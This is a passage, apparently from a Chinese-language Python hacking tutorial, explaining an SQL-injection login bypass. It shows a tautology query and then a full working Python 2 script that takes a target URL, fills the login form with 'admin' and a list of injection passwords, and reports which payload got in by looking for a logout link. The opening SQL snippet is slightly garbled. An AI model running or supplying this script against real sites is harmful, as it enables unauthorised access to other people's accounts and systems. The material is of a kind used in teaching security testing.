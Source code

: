 ```py
 $sql = "SELECT count(*) FROM cros where (User="1" or "1"="1." and Pass="1" or "1"="1")";.
```

`User`和`Pass`字段将保持`true`，`count(*)`字段将自动变为`count(*)> 0`。

让我们编写`sql_form6.py`代码并逐行分析它：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
br.select_form(nr=0)
pass_exp = ["1'or'1'='1",'1" or "1"="1']

user1 = raw_input("Enter the Username ")
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(nr=0)
  br.form[user1] = 'admin'
  br.form[pass1] = pass_exp[p]
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",pass_exp[p]

  elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```
